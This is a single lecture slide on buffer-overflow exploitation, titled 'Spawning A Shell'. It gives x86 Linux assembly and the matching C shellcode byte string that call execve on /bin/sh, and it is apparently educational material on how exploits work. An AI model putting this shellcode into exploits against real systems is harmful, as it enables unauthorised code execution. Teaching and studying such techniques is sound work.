

# Spawning A Shell
First we need to generate the attack code:
jmp	0x1F
popl	%esi
movl	%esi, 0x8(%esi)
xorl	%eax, %eax
movb	%eax, 0x7(%esi)
movl	%eax, 0xC(%esi)
movb	$0xB, %al
movl	%esi, %ebx
leal	0x8(%esi), %ecx
leal 	0xC(%esi), %edx
int 	$0x80
xorl	%ebx, %ebx
movl	%ebx, %eax
inc	%eax
int	$0x80
call	-0x24
.string	“/bin/sh”
char shellcode[] =
“\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89”
“\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c”
“\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff”
“\xff\xff/bin/sh”;

Generating the code will be discussed later.  However, the idea is that you need to get the machine code that you intend to execute.
38